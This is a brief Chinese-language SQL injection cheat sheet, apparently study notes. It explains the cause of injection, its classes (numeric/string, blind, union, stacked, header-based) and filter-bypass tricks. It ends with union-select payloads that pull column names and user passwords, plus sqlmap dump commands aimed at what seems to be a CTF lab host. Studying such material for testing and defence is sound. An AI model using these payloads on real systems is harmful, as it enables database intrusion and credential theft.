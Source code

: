 sql注入原理：产生sql注入漏洞主要因为没有对接受到的参数进行过滤、验证和处理直接拼接到了sql语句中，然后直接执行该sql语句，这样就会导致恶意用户传入一些精心构造的sql代码，与后台sql语句拼接后形成完整的sql语句执行，达到攻击者的目的。
^
分类：
我们可以把sql注入直接的分为字符型和数字型，主要特点就是在进行sql注入的时候是否需要闭合传参的单引号，不需要闭合说明是数值型，反之就是字符型；
还可以将sql注入分为有回显的注入和无回显的注入，无回显的注入又别称为盲注，盲注有三大类，布尔盲注、时间盲注以及报错盲注；
根据sql注入各自的特点可以分为联合注入、二次注入、宽字节注入、堆叠注入等，
根据http报文中的不同位置可以有cookie注入、referer注入、x-forwarded-for注入等。
^
sql注入绕过：大小写绕过 、编码绕过、注释绕过、关键字/关键函数替换、参数污染、缓存区溢出、特殊符号




^
## **简单注入模板**
1. 有联合注入回显点手工注入
```
-1 union select 1,database(),GROUP_CONCAT(column_name),4 from information_schema.columns WHERE table_name='StormGroup_member'
-1 union select 1,name,password,4 from StormGroup_member limit 0,1
```
2. 不能联合注入sqlmap 
```
sqlmap -u b7fdb6ca.sqlsec.com/?id=2 --dbs -v-3 --dump -C "content" -T flag_is_here -D "db"

sqlmap -u "http" --dbms=mysql --random-agent -v 3
```
